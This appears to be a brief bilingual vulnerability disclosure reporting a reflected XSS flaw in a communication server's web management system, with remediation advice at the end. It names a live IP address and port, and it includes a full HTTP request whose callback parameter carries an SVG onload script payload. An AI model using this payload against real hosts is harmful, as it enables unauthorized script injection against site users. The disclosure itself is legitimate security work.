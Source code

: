 # The callback parameter of the communication server web management system has xss vulnerabilities

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=<svg onload=alert('xxss')>//&cat=javq6&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

![](13.png)



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

